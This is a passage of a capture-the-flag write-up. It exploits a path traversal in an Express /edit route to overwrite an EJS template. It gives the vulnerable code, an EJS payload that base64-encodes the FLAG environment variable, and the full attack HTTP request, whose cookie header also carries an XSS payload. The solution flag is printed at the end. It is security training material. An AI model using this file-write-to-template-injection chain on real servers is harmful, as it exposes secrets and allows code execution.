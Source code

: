 http://nginx.org/en/docs/http/ngx_http_sub_module.html

Again looking into the source code, we can spot another path traversal bug. But this time we have full control over the content of the file also

```js
app.post("/edit", (req, res) => {
    if (!req.session.admin) return res.sendStatus(401);
    try {
        fs.writeFileSync(path.join("articles", req.query.id), req.body.article.replace(/\r/g, ""));
        res.redirect("/");
    } catch {
        res.sendStatus(404);
    }
})
```

To make sure that nginx doesn't replace the flag with something else, Ithough of encoding the flag to another format. As the site uses ejs template I could overwrite any of the available template file and execute my own templates for eg: 

```js
<%= Buffer.from(process.env.FLAG,'ascii').toString("base64")%>
```

This will encode the flag to base64

Here's the request , notice the `id` parameter value , you can change it to any file which you want to overwrite as changing any other such as the .js file would require a server restart I used the template file instead :

```
POST /edit?id=../views/scripts.ejs HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Origin: http://127.0.0.1:1337
Connection: close
Referer: http://127.0.0.1:1337/edit?id=1
Cookie: wp-settings-time-1=1663159225; BITBUCKETSESSIONID=CB8444D322BCB0EBA83295A2BE124807; _atl_bitbucket_remember_me=MzYwMThjZTA3OWE4ZmM4NzdmMjBiODY3NThjNWFkOTU4MGI5OTNjNjo4ODEyMzg0MTljYWVlYjcxNTQ3YWMyZWYyNTJiMmNhZTk3NWUzYjJm; DOKU_PREFS=difftype%23sidebyside%2522%253E%253Cimg%2520src%253Dx%2520onerror%253Dalert%2528%2529%253E; connect.sid=s%3AaWx9KB0bw_2BGfsC-RNgVKx5NYSuVyA4.k5QJAM0yBB2%2FHSkNHR0hbZEhVroVsEUZznULHHZvfKw
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

article=<%= Buffer.from(process.env.FLAG,'ascii').toString("base64")%>
```

Now when you will visit the edit page, the base64 encoded flag should be right there.

This was a really good challenge: BlackHatMEA{1475:16:6eb55fd9172620043c27f3a781bfb966e4efe6a5} 
